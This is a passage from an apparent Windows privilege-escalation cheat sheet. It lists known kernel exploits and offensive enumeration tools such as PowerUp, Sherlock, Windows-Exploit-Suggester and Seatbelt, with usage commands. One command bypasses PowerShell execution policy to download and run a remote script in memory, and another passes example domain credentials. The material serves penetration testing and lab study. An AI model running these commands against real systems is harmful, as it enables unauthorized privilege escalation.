     * [MS11-080 (adf.sys)](#ms11-080-afdsys---microsoft-windows-xp2003)
    * [MS15-051 (Client Copy Image)](#ms15-051-client-copy-image---microsoft-windows-20032008782012)
    * [MS16-032](#ms16-032---microsoft-windows-7--10--2008--2012-r2-x86x64)
    * [MS17-010 (Eternal Blue)](#ms17-010-eternal-blue)
    * [CVE-2019-1388](#cve-2019-1388)
* [EoP - $PATH Interception](#eop---path-interception)
* [References](#references)

## Tools

* [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)

    ```powershell
    powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
    ```

* [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
* [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)

    ```powershell
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
    ```

* [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
* [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

    ```powershell
    ./windows-exploit-suggester.py --update
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
    ```

* [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
* [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
* [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
* [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)

    ```powershell
    Seatbelt.exe -group=all -full
    Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
    Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
    ```

* [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
* [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
